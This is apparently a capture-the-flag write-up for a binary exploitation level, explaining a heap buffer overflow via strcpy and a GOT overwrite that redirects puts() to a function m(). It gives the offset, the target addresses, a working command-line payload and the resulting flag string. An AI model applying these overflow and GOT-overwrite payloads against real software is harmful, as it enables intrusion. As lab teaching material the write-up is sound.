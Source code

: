 # level7

```sh
$> ls -l ~
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```

We have 2 `strcpy()` calls on 2 malloc'ed buffers.  

The principle behind this attack is to overflow the first one and change its return address, not to the contiguous second buffer anymore, but to `puts()`'s address.  
Then we change `puts()` itself to a call to `m()`.
This last point is what is called a GOT overwrite attack. We already used it in previous levels.

To do that, we calculated the offset to the return of the first buffer which is `20` bytes.
At this point, we needed two more things:
- The address of `puts()` => `0x08049928`
- The address of `m()` => `0x080484f4`


We then applied the payload:

```sh
$> ./level7 $(python -c 'print("A"*20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1657740285
```
